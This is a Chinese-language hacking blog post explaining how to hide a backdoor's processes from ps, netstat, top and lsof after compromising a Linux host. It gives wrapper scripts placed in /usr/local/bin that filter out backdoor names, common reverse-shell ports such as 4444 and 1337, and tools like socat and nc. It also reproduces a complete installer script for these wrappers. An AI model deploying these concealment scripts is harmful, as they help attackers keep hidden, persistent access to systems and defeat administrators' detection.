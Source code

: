```yaml
---
layout: post
title: 后门隐藏之进程隐藏技巧（ps、netstat、top、lsof）
date: 2018-10-15 23:30:00
tags: 后门 backdoor 进程
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面
最近工作忙成狗，写些与技术没什么关系的文档，没办法，谁让咱还指着工资吃饭呢。  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/backdoor.png?raw=true)  




在后渗透过程中对需要长期控制的目标一般会留一个后门，后门的隐蔽性当然值得我们去思考一下，今天记录一下之前用到的一个隐藏后门进程的小技巧。今天讲的不是什么高大上的技术，只是偶尔会用一下的小技巧，当然不是改pid为0，也不是修改系统调用。  


今天说的隐藏进程其实有点不够准确，应该是使命令ps/netstat/top/lsof这几个命令不显示我们的后门进程而已，当然我们也不是替换/劫持这几个命令，只是包装一下这几个命令。  

### \#0x01 PS命令不显示后门进程
其实很简单，我们包装一下ps这个命令，如在ubuntu（Ubuntu 14.04.5）中，ps路径为/bin/ps，如下图

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-1.jpeg?raw=true)

我们需要做的就是在创建一个/usr/local/bin/ps文件，写入如下内容  

```
#!/bin/bash
/bin/ps $@ | grep -Ev 'backdoor name|backdoor server address|backdoor server port'
```
赋予执行权限  
chmod +x /usr/local/bin/ps  

执行which ps后的效果  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-2.jpeg?raw=true)

就是这么简单就搞定了，执行ps的时候就不会有我们的backdoor信息出现了。我们自己使用时，用/bin/ps就OK了。

### \#0x02 netstat、top、lsof
这几个命令同上，很简单，这里不一一介绍了。  

每个命令都手动去改太麻烦，好在有人已经写好了脚本（参见本文引用），一条命令就搞定这几个命令的伪装了（没有支持top命令）……  

### \#0x03 脚本中的语法

参考文献的脚本是这样写的   
```
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
其实比较简单，主要有两点需要注意（参见本文引用）   
1、linux shell 的here document 用法 (cat << EOF)，些多行内容到文件  
2、Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数  

### \#0x04 参考
* [iamckn/backdoors](https://github.com/iamckn/backdoors)
* [linux shell 的here document 用法 (cat << EOF)](https://my.oschina.net/u/1032146/blog/146941)
* [cat EOF追加与覆盖](http://www.361way.com/cat-eof-cover-append/4298.html)
* [Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数](https://blog.csdn.net/u011341352/article/details/53215180)
